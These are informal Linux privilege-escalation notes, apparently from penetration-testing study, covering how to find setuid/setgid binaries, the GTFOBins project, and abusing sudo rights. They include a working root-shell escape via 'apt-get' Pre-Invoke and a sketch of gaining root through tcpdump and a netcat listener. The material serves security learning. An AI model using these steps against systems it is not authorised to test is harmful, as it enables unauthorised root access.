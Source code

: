 The `Set User ID upon Execution` (`setuid`) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The `setuid` bit appears as an `s`.


```shell-session
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command: `find / -uid 0 -perm -6000 -type f 2>/dev/null`. These files can be leveraged in the same manner as `setuid` binaries to escalate privileges.


```shell-session
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
```

## GTFOBins

The [GTFOBins](https://gtfobins.github.io) project is a curated list of binaries and scripts that can be used by an attacker to bypass security restrictions. Each page details the program's features that can be used to break out of restricted shells, escalate privileges, spawn reverse shell connections, and transfer files. For example, `apt-get` can be used to break out of restricted environments and spawn a shell by adding a Pre-Invoke command:
```shell-session
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

# sudo -l

if we have sodu -l shows that we can run a file as root
, if the file executes commands best on arguement for example tcpdump can execute files..
we can then create a netcat listener to get root.

gtfobins